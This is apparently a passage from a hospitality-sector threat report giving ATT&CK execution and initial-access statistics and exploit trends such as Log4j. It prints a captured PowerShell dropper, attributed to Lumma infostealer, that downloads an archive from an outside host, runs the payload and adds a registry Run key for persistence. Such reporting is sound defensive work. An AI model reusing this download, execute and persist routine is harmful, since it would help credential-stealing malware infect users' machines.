 ## Execution Techniques

Execution techniques observed in the security incidents primarily involved the user execution of malicious files and links, followed by malicious uses of PowerShell scripts and commands. Some of the commands were executed remotely via remote Windows Management Instrumentation (WMI) service.

- User Execution T1204: 58.7%
- Command and Scripting Interpreter T1059: 37%
- Windows Management Instrumentation T1047: 2.5%
- Scheduled Task/Job T1053: 1.8%

The example script below was executed when a user tried to install a free version of ThunderSoft screen recorder, which, in fact, was an instance of Lumma infostealer.

```
$5vhslS6M=’https[://]softz[.]b-cdn.net/soft111[.]
z i p’;$ y 6l L K X q Q = $ e n v: A P P D A T A +’\ L Y G t m 2 H M’;
$ u K 9 7 o 3 5 m = $ e n v : A P P D A T A +’\ z I B b f g 2 d .z i p ’;
$bReTCOPB=$y6lLKXqQ+’\ThunderSoft.exe’;  if  (-not
(TESt-paTH $y6lLKXqQ)) { nEw-ITeM -Path $y6lLKXqQ
-ItemType Directory }; STaRt-biTStRANSFer -Source
$5vhslS6M  -Destination  $uK97o35m;  exPand-ARchivE
-Path $uK97o35m -DestinationPath $y6lLKXqQ -Force;
RemoVE-ITeM  $uK97o35m;  STaRt-pROCesS  $bReTCOPB;
NEw-ItEmPROPErTy  -Path  ‘HKCU:\SOFTWARE\Microsoft\
Windows\CurrentVersion\Run’ -Name ‘suYKZtOX’ -Value
$bReTCOPB -PropertyType ‘String’;
```

## Initial Access Techniques

Initial Access vectors used in the attacks were mainly exploit attempts against publicly accessible services, followed by phishing and the use of compromised accounts. Most phishing attempts were generic and leveraged social engineering with links to external websites.

- Exploit Public-Facing Application T1190: 61.5%
- Phishing T1566: 23.4%
- Valid Accounts T1078: 15.1%

Compared to our last hospitality threat report, attempts to exploit Apache Log4J have remained basically flat and still represent nearly half of all exploit attempts.

The exploit techniques identified in the initial access attempts targeting web applications primarily included Log4j CVE-2021-44228, which represented 49% of the cases observed.

This is likely due to the ease of exploitation and threat actors searching for the previously mentioned “low hanging fruit” issues.

Another widely targeted type of vulnerability was cross-site scripting, which accounted for 26% of records. Meanwhile, SQL injection and directory traversal made up 20.2% of the cases. Notably, some attackers also tried to leverage CVE-2020-1472, (Zerologon) and CVE-2021-26897 (a remote code execution vulnerability in Windows DNS server).

Other attacks like SQL Injection have increased in frequency, sometimes up to double, which suggests that these stalwart attacks are tried and true. We also see some vulnerabilities that were very popular for exploitation just a couple of years ago completely fall off the chart.
